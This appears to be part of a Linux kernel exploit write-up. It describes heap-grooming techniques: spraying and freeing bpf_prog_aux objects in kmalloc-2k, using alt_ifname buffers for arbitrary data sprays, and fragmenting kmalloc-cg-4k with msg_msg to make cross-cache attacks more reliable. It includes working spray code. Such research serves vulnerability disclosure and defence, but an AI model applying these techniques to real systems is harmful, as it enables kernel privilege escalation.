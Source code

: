 # Novel Techniques

## kmalloc-2k groom/potential target object: `bpf_prog_aux`
```c
struct bpf_prog *bpf_prog_alloc_no_stats(unsigned int size, gfp_t gfp_extra_flags)
{
	gfp_t gfp_flags = bpf_memcg_flags(GFP_KERNEL | __GFP_ZERO | gfp_extra_flags);
	struct bpf_prog_aux *aux;
[...]
	aux = kzalloc(sizeof(*aux), bpf_memcg_flags(GFP_KERNEL | gfp_extra_flags));
[...]
}
```
The `bpf_prog_aux` object gets allocated by the `bpf_prog_alloc_no_stats`.
It can be allocated from userland by creating an empty bpf program:
```c
    struct bpf_insn insns[] = {
        BPF_MOV64_IMM(BPF_REG_0, 4),
        BPF_EXIT_INSN(),
    };
[...]
    union bpf_attr prog_attr = {
        .prog_type = BPF_PROG_TYPE_SOCKET_FILTER,
        .insn_cnt = sizeof(insns) / sizeof(insns[0]),
        .insns = (uint64_t)insns,
        .license = (uint64_t) "GPL v2",
        .log_level = 0,
        .log_size = 0,
        .log_buf = (uint64_t)0};

[...]
    /* defrag 2k slab (bpf_prog_aux) */
    int progfd[SPRAY];
    puts("[*] kmalloc-2k defrag");
    for (int i = 0; i < 3 * SPRAY / 4; i++)
    {
        progfd[i] = bpf(BPF_PROG_LOAD, &prog_attr);
        if (progfd[i] == -1)
            errout("bpf(BPF_PROG_LOAD)");
    }
```

It can be later freed by simply closing the bpf program's fd:
```c
    /* free slab containing tcx_entry (return it to buddy) */
    printf("[*] cross-cache (kmalloc-2k -> kmalloc-cg-2k)\n");
    for (int i = SPRAY / 2; i < SPRAY; i++)
        close(progfd[i]);
```

This is useful for spraying and manipulating heap layout in kmalloc-2k and it's what I ended up using for holding kmalloc-2k slabs that I later return to the page allocator for my cross-cache. It's also worth noting that the first qword is a refcount to track the life time of the bpf program bound to it, which can make it an interesting target for exploitation, however I didn't end up using it for that purpose in my exploit for the reasons described in `exploit.md`, so I'm only mentioning this as a side note.

## Arbitrary data spray object: `alt_ifname`
```c
static int rtnl_alt_ifname(int cmd, struct net_device *dev, struct nlattr *attr,
			   bool *changed, struct netlink_ext_ack *extack)
{
	char *alt_ifname;
	size_t size;
	int err;

	err = nla_validate(attr, attr->nla_len, IFLA_MAX, ifla_policy, extack);
[...]
	alt_ifname = nla_strdup(attr, GFP_KERNEL_ACCOUNT);
[...]
	kfree(alt_ifname);
	if (!err)
		*changed = true;
	return err;
}
``` 
The `alt_ifname` object is a temporary buffer where user data is stored with an arbitrary size, allocated with `GFP_KERNEL_ACCOUNT`. Keep in mind that `rtnl_alt_ifname` is only called from contexts where the rtnl lock is acquired, so spawning multiple threads to race and spray the temporary buffer won't work, so we have to make sure the object we want to overwrite is first on the freelist.

## Cross-cache stabilization technique/trick
```c
    /* create cg-4k partial slabs to avoid disputing buddy pages with cg-2k */
    puts("[*] kmalloc-cg-4k partial slabs");
    for (int i = 0; i < SPRAY; i++)
        msgsnd(frag4k[i], msg, 4096 - 48, 0);
    for (int i = 8; i < SPRAY; i++)
    {
        if (!(i % 8))
            continue;
        if (msgrcv(frag4k[i], msg, 4096 - 48, MTYPE_PRIMARY, 0) < 0)
            errout("msgrcv");
    }
```
Further improve cross-cache stability by purposefully fragmenting other caches that I don't want to take the freed slab by creating several used slabs and leaving only 1 object left in each of them, creating several partial slabs with freelists that `kmalloc()` can chew on long before it starts asking for new pages. In my exploit, both `msg_msg` in kmalloc-cg-4k and `msg_msgseg` in kmalloc-cg-2k get allocated in the same path, but I want to make sure `msg_msgseg` takes the freed slab from the page allocator. To ensure that, not only I defrag kmalloc-cg-2k (common knowledge) but also frag kmalloc-cg-4k with partial slabs (novel to the best of my knowledge), which took the success rate of this specific step from less than 40% to succeeding the great majority of the time.